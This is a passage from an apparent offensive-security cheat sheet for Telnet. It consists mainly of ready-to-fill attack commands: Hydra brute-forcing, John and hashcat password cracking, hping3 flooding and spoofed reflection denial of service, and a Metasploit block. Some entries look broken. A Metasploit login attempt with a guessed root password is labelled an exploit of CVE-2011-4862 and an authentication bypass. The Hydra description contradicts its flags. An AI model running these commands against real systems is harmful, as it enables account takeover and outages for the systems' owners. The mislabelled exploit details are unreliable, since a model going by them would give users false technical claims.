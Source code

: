     ```bash
    hydra telnet://<target_ip> -s 23 -l <username_list> -P <password>
    ```
* **Description:** Test a multiple usernames against a single password.

#### Offline Hash Cracking

*   **Tool:** \[\[John the Ripper Cheat Sheet]]

    ```bash
    john --wordlist=<path/to/wordlist> <hash_file>
    ```

\


*   **Tool:**

    ```bash
    hashcat -m <mode> <hash_file> <path/to/wordlist>
    ```

### Denial of Service

#### TCP/UPD Flood Attack

*   **Tool:** \[\[HPing3 Cheat Sheet]]

    ```bash
    hping3 <target_ip> -p <target_port> --flood --rand-source -c 1000
    ```
* **Description:** Flooding the port with connection attempts, potentially leading to a denial of service.

#### TCP/UDP Reflection Attack

*   **Tool:** \[\[HPing3 Cheat Sheet]]

    ```bash
    hping3 <target_ip_1> -p <target_port> --spoof <target_ip_2> --flood --rand-source -c 1000
    ```
* **Description:** Execute a reflection attack by sending requests with a spoofed source IP, causing the target to flood the victim with responses.

### Exploits

#### Telnetd Vulnerability (CVE-2011-4862)

*   **Tool:** Custom Exploit, \[\[Metasploit]]

    ```bash
    use exploit/unix/telnet/telnet_login
    set RHOSTS <target_ip>
    set USERNAME root
    set PASSWORD toor
    exploit
    ```
* **Description:** Exploits a known vulnerability in the Telnet daemon, allowing an attacker to bypass authentication and gain root access.
